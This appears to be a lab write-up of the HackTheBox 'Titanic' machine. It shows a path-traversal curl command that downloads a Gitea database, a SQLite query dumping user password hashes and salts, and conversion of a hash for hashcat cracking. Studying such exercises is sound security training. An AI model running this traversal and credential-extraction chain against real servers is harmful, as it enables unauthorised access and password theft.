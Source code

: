 current version of Gitea is 1.22.1
keeping that in mind , we see our user developer made 2 repos and theres the administrator user 
`flask-app` and `dockerconfig`

theres an sql server running on port `3306`  and theres some creds 
![[Pasted image 20250227135124.png]]
nmap didnt detect that port first but now it does .. mistake from me forgot to put the `-p` flag 
but its closed mean its running locally 
so its mean we are dealing with some sql database and we can find some sqli vurnability in the gitea app since the gitea container and mysql are on the same repo 

after along time dealing with it , it appears that theres no sql vurnabilty , its just that the `.db` file exists in the home directory of the user , under the gitea folder 

we download that file now from the LFI that we found initially 

```bash 
┌──(kali㉿kali)-[~/…/CTF/HTB/machines/titanic]
└─$ curl http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db -o gitea.db
```

and open it with `sqlite3`  
```bash
┌──(kali㉿kali)-[~/…/CTF/HTB/machines/titanic]
└─$ sqlite3 gitea.db
```

we found the table user that contains a lot of information including the hash and salt for the user `developer` 

```bash
┌──(kali㉿kali)-[~/…/CTF/HTB/machines/titanic]
└─$ sqlite3 gitea.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> SELECT lower_name, passwd, salt FROM user; 
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34
test|aca0de80ec45c6a31fd95fc7a59c686306ed1c8a0d197e81c99e08ee3eb3850e2b3645ae7b74651971642b1f2a24b9fa6a19|b6857480e832d3fcd00b254ac3daf841
testuser|320ec72b3888b4b8abe3ad0ceac5dc204cfb40dedcd69c5680a1f8c8611ef6dd4decb90ffb1fc1872b3c23d5e2e600c0b460|8e9c6b896fdf7c0bbae75faa56228889
test1234|add21ff0baf5b04d842df1e5dc102e10ca3605abd3846afcea41f3575f4e6a19044a7b8830cbda3f7eb4a1288c2553032f9c|56eedf4c3d5d21a7708419aeed77e49e
test2|ee59207c24c0d1b95bb9eaef1e411b70dee980c3709d0fc4a7268b218182d93c9d77db08fb6d817f474510557af89f916108|4598ab40a20c67f173e399c641d8058d
```

well we cant crack it like that , we must make it into a hash first , using the [gitea2hash.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py) 
```bash
┌──(kali㉿kali)-[~/repo]
└─$ python3 gitea.py 8bf3e3452b78544f8bee9400d6936d34:e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56  
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```
